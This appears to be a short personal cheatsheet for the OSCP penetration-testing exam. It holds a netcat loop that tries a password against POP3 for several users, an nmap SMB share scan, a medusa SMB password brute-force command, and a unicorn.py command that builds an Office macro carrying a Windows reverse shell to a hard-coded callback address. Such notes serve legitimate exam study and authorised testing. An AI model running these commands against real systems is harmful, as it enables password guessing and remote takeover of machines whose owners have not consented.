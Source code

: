 # Another-OSCP-Cheatsheet
This is my personal OSCP cheatsheet that also "hopefully" would let me pass my exam. Any improvement is welcome :)

## POP3 enum
    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
    
## SMB enum
**SHARES**

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4				

## MACRO PAYLOAD
**UNICORN.PY** Great tool u NEED to use in your OSCP journey https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    

       
    
    
